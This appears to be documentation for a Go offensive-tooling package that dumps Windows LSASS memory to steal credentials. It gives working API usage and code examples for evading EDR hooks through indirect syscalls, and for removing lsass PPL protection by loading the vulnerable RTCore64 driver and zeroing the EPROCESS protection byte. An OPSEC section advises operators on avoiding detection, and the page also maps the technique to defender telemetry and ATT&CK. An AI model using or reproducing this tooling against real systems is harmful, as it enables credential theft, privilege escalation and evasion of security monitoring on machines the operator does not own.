

# LSASS minidump (live)

[← credentials index](README.md) · [docs/index](../../index.md)

## TL;DR

Produce a Windows MINIDUMP of `lsass.exe`'s memory in-process —
without calling `MiniDumpWriteDump` (the heavily-hooked DbgHelp
export). Walks regions + modules with `NtReadVirtualMemory`,
emits the canonical 6-stream MINIDUMP layout, and ships a
RTCore64-driven kernel path to flip lsass out of PPL when
`RunAsPPL=1`. The dump is consumed by [`credentials/sekurlsa`](sekurlsa.md).

## Primer

LSASS holds the cleartext Kerberos password material, NTLM hashes,
DPAPI master keys, TGT cache, CloudAP PRT, and TSPkg/RDP plaintext.
Every credential-dumping tool eventually wants its memory.

The classic path is `MiniDumpWriteDump` from `dbghelp.dll`; modern
EDRs hook every interesting call inside that function. The
`lsassdump` package skips the hook surface entirely:

1. Locate lsass via `NtGetNextProcess` (no `OpenProcess` /
   `CreateToolhelp32Snapshot` / `EnumProcesses`).
2. Walk the target's VAD via `NtQueryVirtualMemory` to enumerate
   committed regions.
3. Walk the loaded modules via `NtQueryInformationProcess(ProcessLdr…)`
   parsing the PEB's `Ldr.InMemoryOrderModuleList`.
4. Read each region's bytes with `NtReadVirtualMemory`.
5. Emit a 6-stream MINIDUMP (Header, SystemInfo, ModuleList,
   Memory64List, MemoryInfoList, ThreadList stub) directly to an
   `io.Writer`.

Every Nt* call accepts an optional `*wsyscall.Caller` (nil =
WinAPI fallback) so the operator can route through direct or
indirect syscalls and bypass user-mode hooks.

PPL stands separate: when `RunAsPPL=1` (Win 11 default) the
kernel rejects `PROCESS_VM_READ` regardless of token privileges.
The package ships a kernel-level bypass via
`kernel/driver/rtcore64`: zero `EPROCESS.Protection` byte
(temporarily), open lsass, restore the byte. The Discover*
helpers parse `ntoskrnl.exe` PE prologues to derive the EPROCESS
field offsets without hand-curated tables.

## How It Works



Implementation details:

- `OpenLSASS` walks the system's process list with
  `NtGetNextProcess` — no public-API call ever names lsass by
  string. The PID is resolved by reading the EPROCESS or via
  `NtQueryInformationProcess(ProcessBasicInformation)`.
- The Memory64List stream is the bulk of the dump — every
  committed region's `BaseAddress + RegionSize + RawData`. The
  package writes the directory entry first, then streams payload
  bytes through the writer to keep RAM usage flat regardless of
  lsass size (~80–600 MB on modern boxes).
- `Stats` reports per-pass counters (regions, modules, bytes
  read, bytes skipped) so the operator can spot incomplete dumps
  before parsing.
- `DiscoverProtectionOffset` cross-validates two prologue
  patterns (`PsIsProtectedProcess` + `PsIsProtectedProcessLight`)
  and returns the EPROCESS byte offset only when both agree —
  falsey matches at runtime would otherwise corrupt EPROCESS.
- `Unprotect` keeps the original Protection value in `PPLToken`
  so `Reprotect` can restore it. Aborting between the two leaves
  lsass unprotected; defer the call.

## API Reference

### `type Stats`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#Stats)

| Field | Type | Description |
|---|---|---|
| `Regions` | `int` | Committed regions enumerated |
| `Modules` | `int` | Loaded modules enumerated |
| `BytesRead` | `int64` | Total bytes copied into the dump |
| `BytesSkipped` | `int64` | Region bytes that `NtReadVirtualMemory` refused (guard pages, deleted views) |

### `type PPLOffsetTable` / `type PPLToken`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#PPLOffsetTable)

`PPLOffsetTable` carries the per-build EPROCESS field offsets
(populated by the `Discover*Offset` helpers). `PPLToken` is the
opaque return value from `Unprotect`, opaquely encoding the
original Protection bytes so `Reprotect` can restore them.

### Sentinel errors

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#pkg-variables)

| Error | Trigger |
|---|---|
| `ErrLSASSNotFound` | `NtGetNextProcess` walk completed without seeing lsass |
| `ErrOpenDenied` | Access denied — admin? token? PPL active? |
| `ErrPPL` | lsass is PPL-protected; need driver-assisted Unprotect |
| `ErrLsassEProcessNotFound` | `PsActiveProcessLinks` walk did not match the lsass PID |
| `ErrInvalidEProcess` / `ErrInvalidProtectionOffset` | Upstream lookup returned zero — populate `PPLOffsetTable` for the build |
| `ErrProtectionOffsetNotFound` | `PsIsProtectedProcess` prologue didn't match expected `movzx eax, [rcx+disp32]` |

### `OpenLSASS(caller *wsyscall.Caller) (uintptr, error)` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#OpenLSASS)

Resolve and open lsass.exe via `NtGetNextProcess`. Returns a raw
handle (uintptr cast for cross-package interop). Caller must
`CloseLSASS`.

### `CloseLSASS(h uintptr) error` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#CloseLSASS)

`NtClose` wrapper.

### `LsassPID(caller *wsyscall.Caller) (uint32, error)` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#LsassPID)

Resolve lsass.exe's PID without opening it. Used by the PPL
bypass path to find the EPROCESS to unprotect.

### `Dump(h uintptr, w io.Writer, caller *wsyscall.Caller) (Stats, error)` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#Dump)

Emit MINIDUMP bytes to `w` for the process referenced by `h`.
`w` may be a file, a `bytes.Buffer`, or an encrypted/transport
stream — the dump is stream-friendly (writes flow directly out).

### `DumpToFile(path string, caller *wsyscall.Caller) (Stats, error)` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#DumpToFile)

Convenience: `OpenLSASS` + `Dump(h, file, caller)` + `Sync` +
`Close`.

### `DumpToFileVia(creator stealthopen.Creator, path string, caller *wsyscall.Caller) (Stats, error)` (Windows)

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#DumpToFileVia)

Same as `DumpToFile` but routes the on-disk landing through the
operator-supplied [`stealthopen.Creator`](../evasion/stealthopen.md).
nil falls back to a `*StandardCreator` (plain `os.Create` — identical
to `DumpToFile`); non-nil layers transactional NTFS, encrypted
streams, ADS, or any operator-controlled write primitive on top of
the minidump landing. The minidump byte stream itself is unchanged
— `Dump(h, w, caller)` writes into the WriteCloser the Creator
returns. *os.File-only* `Sync` is best-effort: when the Creator
returns something other than *os.File, durability semantics are
delegated to the Creator's Close.

### `Unprotect(rw driver.ReadWriter, eprocess uintptr, tab PPLOffsetTable) (PPLToken, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#Unprotect)

Zero EPROCESS.Protection (and the SignatureLevel siblings) via
the supplied kernel `ReadWriter` (typically RTCore64). Returns
the original bytes for `Reprotect`.

### `Reprotect(rw driver.ReadWriter, tok PPLToken) error`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#Reprotect)

Restore Protection / SignatureLevel from `tok`. Always defer
this call.

### `FindLsassEProcess(rw driver.ReadWriter, lsassPID uint32, opener stealthopen.Opener, caller *wsyscall.Caller) (uintptr, error)`

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#FindLsassEProcess)

Walk `PsActiveProcessLinks` via the kernel ReadWriter and return
the EPROCESS VA matching `lsassPID`. Combines the Discover*
helpers internally.

### `Discover*` family

[godoc](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump#DiscoverProtectionOffset)

Pure-Go on-disk PE parsing — runs cross-platform. Each helper
accepts a `stealthopen.Opener` (nil = `os.Open`) so the
`ntoskrnl.exe` read can route through an EDR-bypass file
strategy.

| Helper | Returns |
|---|---|
| `DiscoverProtectionOffset(path, opener)` | EPROCESS.Protection byte offset |
| `SignatureLevelOffset(prot)` | `prot − 2` |
| `SectionSignatureLevelOffset(prot)` | `prot − 1` |
| `DiscoverUniqueProcessIdOffset(path, opener)` | UniqueProcessId offset |
| `DiscoverActiveProcessLinksOffset(upid)` | `upid + sizeof(HANDLE)` (8 on x64) |
| `DiscoverInitialSystemProcessRVA(path, opener)` | RVA of `PsInitialSystemProcess` export in ntoskrnl |

## Examples

### Simple — dump unprotected lsass to file

```go
import (
    "fmt"

    "github.com/oioio-space/maldev/credentials/lsassdump"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
stats, err := lsassdump.DumpToFile(`C:\Users\Public\lsass.dmp`, caller)
if err != nil {
    panic(err)
}
fmt.Printf("dumped %d regions, %d MB\n", stats.Regions, stats.BytesRead>>20)
```

### Composed — dump in-memory + parse without disk

Pipe the MINIDUMP through a `bytes.Buffer` straight into
[`sekurlsa.Parse`](sekurlsa.md):

```go
import (
    "bytes"
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/credentials/sekurlsa"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
h, err := lsassdump.OpenLSASS(caller)
if err != nil {
    panic(err)
}
defer lsassdump.CloseLSASS(h)

var buf bytes.Buffer
if _, err := lsassdump.Dump(h, &buf, caller); err != nil {
    panic(err)
}
res, err := sekurlsa.Parse(bytes.NewReader(buf.Bytes()), int64(buf.Len()))
if err != nil {
    panic(err)
}
defer res.Wipe()
```

### Advanced — PPL bypass via RTCore64

When `RunAsPPL=1`, drop the protection byte through a kernel
ReadWriter, dump, restore.

```go
import (
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/kernel/driver/rtcore64"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

drv, err := rtcore64.Load(rtcore64.LoadOptions{})
if err != nil {
    panic(err)
}
defer drv.Unload()

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
pid, _ := lsassdump.LsassPID(caller)

ep, err := lsassdump.FindLsassEProcess(drv, pid, nil, caller)
if err != nil {
    panic(err)
}

protOff, _ := lsassdump.DiscoverProtectionOffset("", nil)
tab := lsassdump.PPLOffsetTable{Protection: protOff}

tok, err := lsassdump.Unprotect(drv, ep, tab)
if err != nil {
    panic(err)
}
defer lsassdump.Reprotect(drv, tok) //nolint:errcheck

if _, err := lsassdump.DumpToFile(`C:\Users\Public\ppl-lsass.dmp`, caller); err != nil {
    panic(err)
}
```

See [`ExampleDumpToFile`](../../../credentials/lsassdump/lsassdump_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `OpenProcess(lsass, PROCESS_VM_READ)` | Sysmon Event 10 (process access); the canonical "credential dumping" signal — fires regardless of which API surfaced the open |
| Sustained `NtReadVirtualMemory` against lsass | EDR memory-access telemetry |
| Driver load (RTCore64) | Sysmon Event 6 (driver loaded), Microsoft vulnerable-driver blocklist |
| Write of a `.dmp` file | EDR file-write heuristics flagging dump files in user-writable paths |
| Calls to `MiniDumpWriteDump` | DbgHelp hook (we don't use it — but the absence is itself a tell) |
| EPROCESS.Protection byte transition | ETW Threat-Intelligence provider (Win11 22H2+) |

**D3FEND counters:**

- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/) — flags driver-load + lsass-open combos.
- [D3-SICA](https://d3fend.mitre.org/technique/d3f:SystemConfigurationDatabaseAnalysis/) — kernel-driver load auditing.
- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/) — MINIDUMP magic on disk.

**Hardening for the operator:**

- Stream the dump through a `bytes.Buffer` + `sekurlsa.Parse`
  in-process — no `.dmp` file ever lands.
- Route Nt* through indirect syscalls (`wsyscall.MethodIndirect`).
- Open lsass with the minimum access mask the dump needs
  (`PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION`).
- Defer `Reprotect` — never leave lsass unprotected on a crash
  path.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1003.001](https://attack.mitre.org/techniques/T1003/001/) | OS Credential Dumping: LSASS Memory | full — region walk + MINIDUMP build | D3-PSA, D3-SICA |
| [T1068](https://attack.mitre.org/techniques/T1068/) | Exploitation for Privilege Escalation | partial — PPL bypass via signed-but-vulnerable driver | D3-SICA |

## Limitations

- **Windows-only build/dump pipeline.** Pure Go on-disk PE
  parsing (`Discover*`) runs cross-platform — analysts can
  resolve EPROCESS offsets from a captured `ntoskrnl.exe` on
  Linux/CI.
- **No WoW64 dumps.** Modern lsass is x64; legacy WoW64 not
  supported.
- **Driver visibility.** RTCore64 is a Microsoft-blocklisted
  vulnerable driver as of recent vulnerable-driver blocklist
  updates; on hardened systems the driver load itself is
  blocked. Plan for vBO (very few alternative drivers) or
  alternative PPL bypasses.
- **No thread context capture.** ThreadList is a stub — full
  per-thread context is not emitted. sekurlsa doesn't need it;
  some legacy tooling (windbg `!analyze`) does.
- **Protection-byte race.** Between `Unprotect` and `OpenLSASS`
  there is a microsecond window where lsass is unprotected.
  Defenders with continuous EPROCESS monitoring (rare) can spot
  the transition.

## See also

- [`credentials/sekurlsa`](sekurlsa.md) — parses the produced
  MINIDUMP.
- [`credentials/goldenticket`](goldenticket.md) — downstream
  consumer of an extracted krbtgt hash.
- [`kernel/driver/rtcore64`](../kernel/byovd-rtcore64.md) —
  PPL-bypass driver primitive.
- [`evasion/stealthopen`](../evasion/stealthopen.md) —
  path-based file-hook bypass for `ntoskrnl.exe` reads.
- [`win/syscall`](../syscalls/) — direct/indirect syscall
  caller used throughout this package.
- [Operator path](../../by-role/operator.md#credential-harvest).
- [Detection eng path](../../by-role/detection-eng.md#credential-access)
  — LSASS dump telemetry.
